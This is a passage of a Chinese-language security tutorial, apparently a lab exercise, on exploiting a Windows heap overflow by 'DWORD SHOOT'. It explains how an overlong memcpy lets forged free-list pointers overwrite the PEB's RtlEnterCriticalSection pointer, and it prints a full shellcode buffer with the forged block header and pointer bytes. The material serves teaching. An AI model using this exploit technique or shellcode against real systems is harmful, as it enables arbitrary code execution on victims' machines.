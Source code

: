 上述程序的说明：
- h1 向堆中申请了 200 字节的空间。
- memcpy 的上限错误地写成了 0x200，这实际上是 512 字节，所以会产生溢出。
- h1 分配完之后，后边紧接着的是一个大空闲块（尾块）。
- 超过 200 字节的数据将覆盖尾块的块首。
- 用伪造的指针覆盖尾块块首中的空表指针，当 h2 分配时，将导致 DWORD SHOOT。
- DWORD SHOOT 的目标是 0x7FFDF020 处的 RtlEnterCriticalSection()函数指针，可以简单地将其直接修改为 shellcode 的位置。
- DWORD SHOOT 完毕后，堆溢出导致异常，最终将调用 ExitProcess()结束进程。
- ExitProcess()在结束进程时需要调用临界区函数来同步线程，但却从 P.E.B 中拿出了指向 shellcode 的指针，因此 shellcode 被执行。

依然是直接运行.exe 文件，在断点将进程中断时，再把调试器 attach 上。

不妨先向堆中复制 200 个 0x90 字节，看看堆中的情况和预料的是否一致,如下图所示。

<img src="images/04/实验程序中的堆块分布.png" width="480">

注意：此时要修改上述代码中memcpy的第3个参数为200.

缓冲区布置如下。
- 使用前面章节168字节的 shllcode，并在前面和后面用 0x90 字节补充为 200 字节。
- 紧随其后，附上 8 字节的块首信息。为了防止在 DWORD SHOOT 发生之前产生异常，不妨直接将尾块块首从内存中复制使用: “\x16\x01\x1A\x00\x00\x10\x00\x00”。
- 前向指针是 DWORD SHOOT 的“子弹”，这里直接使用 shellcode 的起始地址0x00520688。注意，自己实验时很可能不是这个地址（堆区可能变化，例如可能是0x00440688...，需要能够结合前面所学进行理解和应用)
- 后向指针是 DWORD SHOOT 的“目标”，这里填入 P.E.B 中的函数指针地址 0x7FFDF020。

调整后shellcode的内容如下：
```
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
"\x88\x06\x44\x00\x20\xf0\xfd\x7f"; 
```

运行一下，发现那个可爱的显示 failwest 的消息框没有蹦出来。原来，这里有一个问题：被我们修改的 P.E.B 里的函数指针不光会被 ExitProcess()调用，shellcode 中的函数也会使用。当 shellcode 的函数使用临界区时，会像 ExitProcess()一样被骗。

为了解决这个问题，我们对 shellcode 稍加修改，在一开始就把我们 DWORD SHOOT 的指针修复回去，以防出错。重新调试一遍，记下 0x7FFDF020 处的函数指针为 0x77F8AA4C。

提示：P.E.B 中存放 RtlEnterCriticalSection()函数指针的位置 0x7FFDF020 是固定的，但是，RtlEnterCriticalSection()的地址也就是这个指针的值 0x77F8AA4C 有可能会因为补丁和操作系统而不一样，请在动态调试时确定。
